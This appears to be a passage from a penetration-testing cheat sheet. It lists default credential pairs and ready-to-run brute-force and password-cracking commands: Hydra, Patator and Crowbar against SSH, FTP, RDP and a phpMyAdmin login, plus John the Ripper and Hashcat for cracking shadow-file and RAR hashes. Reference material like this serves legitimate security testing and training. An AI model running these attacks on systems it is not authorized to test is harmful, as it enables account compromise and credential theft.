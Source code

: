 #### IRC
TCP port 6667.
```bash
irssi -c $TARGET -p $PORT
```

### Gaining Access
#### Default Credentials
```bash
# anonymous:anonymous
# guest:guest
# admin:admin
# admin:adminadmin
```

#### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh
```

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"
```

#### Patator
```bash
patator ftp_login host=$TARGET user=$USER password=FILE0 0=/usr/share/wordlists/rockyou.txt -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500
```

```bash
patator http_fuzz url=http://$TARGET/$LOGIN method=POST body='username=FILE0&password=FILE1' 0=usernames.txt 1=/usr/share/wordlists/rockyout.txt -x ignore:fgrep=Unauthorized
```

#### Crowbar
```bash
sudo apt install crowbar # version 0.4.1
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt > ./rockyou-UTF8.txt
crowbar -b rdp -s $TARGET/32 -u administrator -C rockyou-UTF8.txt -n 1
```

#### John the Ripper
```bash
unshadow passwd.txt shadow.txt > unshadow.txt
john unshadow.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Password-protected RAR files. 
```bash
rar2john backup.rar > hash.txt
john --format=rar hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

#### Hashcat
Modes
* SHA256: 1400
* SHA512: 1800
* RAR5: 13000
